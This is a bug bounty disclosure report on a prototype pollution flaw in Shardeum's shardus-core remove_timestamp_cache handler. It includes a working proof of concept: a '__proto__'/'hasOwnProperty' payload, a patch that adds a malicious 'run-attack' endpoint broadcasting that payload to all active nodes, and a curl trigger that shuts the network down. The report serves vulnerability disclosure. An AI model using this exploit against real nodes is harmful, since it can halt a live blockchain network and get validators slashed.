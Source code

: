 
# Prototype pollution vulnerability in `remove_timestamp_cache` handler can stop active node

Submitted on Aug 6th 2024 at 17:59:45 UTC by @periniondon630 for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34201

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
A prototype pollution vulnerability has been discovered in the remove_timestamp_cache handler of the state-manager module. This vulnerability allows an attacker to manipulate the Object prototype, potentially leading to active node shutdown, slashing of the active node for early leave. If exploited in production/mainnet, this flaw could cause significant disruption and compromise the security of the system.

## Vulnerability Details
The vulnerability exists in the following code snippet:

```javascript
this.p2p.registerInternal(
  'remove_timestamp_cache',
  async (
    payload: TimestampRemoveRequest,
    respond: (result: boolean) => unknown
  ) => {
    const { txId, receipt2, cycleCounter } = payload
    /* eslint-disable security/detect-object-injection */
    if (this.txTimestampCache[cycleCounter] && this.txTimestampCache[cycleCounter][txId]) {
      // remove the timestamp from the cache
      delete this.txTimestampCache[cycleCounter][txId]
      this.txTimestampCache[cycleCounter][txId] = null
      /* prettier-ignore */ this.mainLogger.debug(`Removed timestamp cache for txId: ${txId}, timestamp: ${Utils.safeStringify(this.txTimestampCache[cycleCounter][txId])}`)
      nestedCountersInstance.countEvent('consensus', 'remove_timestamp_cache')
    }
    await respond(true)
  }
)
```

The `payload` parameter can be crafted to include special properties such as `__proto__`, allowing an attacker to manipulate the Object prototype. The following exploit demonstrates this vulnerability:

```javascript
Context.network.registerExternalGet('run-attack', async (req, res) => {
  const payload = { txId: 'hasOwnProperty', receipt2: 'lorem', cycleCounter: '__proto__' }
  for (const node of activeByIdOrder) {
    await this.p2p.tell([node], 'remove_timestamp_cache', payload)
  }
})
```

By sending a payload with `cycleCounter` set to `__proto__` and `txId` set to `hasOwnProperty`, an attacker can modify the prototype of all objects, causing unexpected behaviors and potential application crashes.

## Impact Details
The potential impacts of this vulnerability are severe and include:

- complete network shutdown, which demonstrates by exploit
- slashing active node by early leave penalty.

## References

- [OWASP: Prototype Pollution](https://owasp.org/www-community/attacks/Prototype_Pollution)
- [CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution')](https://cwe.mitre.org/data/definitions/1321.html)

## Proof of concept
- Set up and launch a test Shardeum network.
- Apply the following patch to the shardus-core repository to introduce a malicious node:
```
diff --git a/src/state-manager/index.ts b/src/state-manager/index.ts
index f22738cf..a189e16e 100644
--- a/src/state-manager/index.ts
+++ b/src/state-manager/index.ts
@@ -2169,6 +2169,13 @@ class StateManager {
       binaryGetAccountQueueCountHandler.handler
     )

+    Context.network.registerExternalGet('run-attack', async (req, res) => {
+        const payload = { txId: 'hasOwnProperty', receipt2: 'lorem', cycleCounter: '__proto__' }
+        for (const node of activeByIdOrder) {
+            await this.p2p.tell([node], 'remove_timestamp_cache', payload)
+        }
+    })
+
     Context.network.registerExternalGet('debug_stats', isDebugModeMiddleware, (_req, res) => {
       const cycle = this.currentCycleShardData.cycleNumber - 1

```
- Build and run your malicious node; it will be capable of attacking and shutting down the network.
- Wait until malicious node will become active. 
- Initiate the attack from the malicious node using the following curl command:
```
curl 'http://<MALICIOUS_NODE_IP>:<EXTERNAL_PORT>/run-attack'
```
- The exploit code will iterate through all active nodes in the network and shut them down.
- Wait until all nodes appear red on the monitor webpage, indicating they are offline.
- Check the logs (e.g., fatal logs) to confirm that nothing can be processed. 